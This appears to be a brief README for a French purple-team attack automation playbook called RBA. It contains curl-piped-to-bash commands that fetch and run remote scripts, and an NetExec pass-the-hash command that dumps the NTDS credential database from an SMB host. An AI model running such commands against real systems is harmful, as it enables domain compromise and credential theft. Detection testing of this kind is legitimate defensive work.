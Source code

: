 # RBA

## Playbook d'automatisation d'attack pour l'aide a la detection (Purple Team)

```curl -s https://raw.githubusercontent.com/Cazeho/RBA/main/rba.sh | bash```


```curl -s https://raw.githubusercontent.com/Cazeho/RBA/main/attack/simulation/install.sh | bash```


nxc smb 192.168.56.20 -u Administrator -H 2b576acbe6bcfda7294d6bd18041b8fe --ntds



https://mitre-attack.github.io/attack-navigator/#layerURL=$raw_github.json$



https://mitre-attack.github.io/attack-navigator/#layerURL=https://raw.githubusercontent.com/mvelazc0/PurpleSharp/master/PurpleSharp/Json/PurpleSharp_navigator.json



hash: 2j9YnX9dRfJtZiOu96UCuTLbzfX_6QVdaNwmJmQzthdfooicg
